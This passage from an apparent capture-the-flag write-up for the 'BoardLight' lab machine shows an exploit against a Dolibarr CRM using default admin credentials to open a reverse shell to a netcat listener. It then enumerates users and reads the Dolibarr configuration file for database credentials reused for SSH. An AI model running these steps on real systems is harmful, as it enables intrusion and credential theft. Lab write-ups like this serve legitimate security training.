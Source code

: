 **Exploit**
```console
m3ga@kali:~$ python3 exploit.py 'http://crm.board.htb' admin admin 10.10.16.4 53
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

**Listener**
```console
m3ga@kali:~$ nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.11] 36000
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Perfect! We're in...

### Enumeration

Let's see what users are on the system
```console
www-data@boardlight:/home$ grep -i '/bin/bash' /etc/passwd
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```

### Privilege Escalation - larissa

After spending some time and researching `dolibarr`, I found out where the database configuration data is stored. These kinds of files usually store clear-text username and passwords in them.

According to https://wiki.dolibarr.org/index.php?title=Configuration_file the configuration should be at `/var/www/html/crm.board.htb/htdocs/conf/config.php`

Sure enough, the credentials can be seen here.
```text
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='[REDACTED]';
$dolibarr_main_db_type='mysqli';
```

I tried using the database password to SSH as `larissa`. Users usually re-use their passwords which holds true in this case.
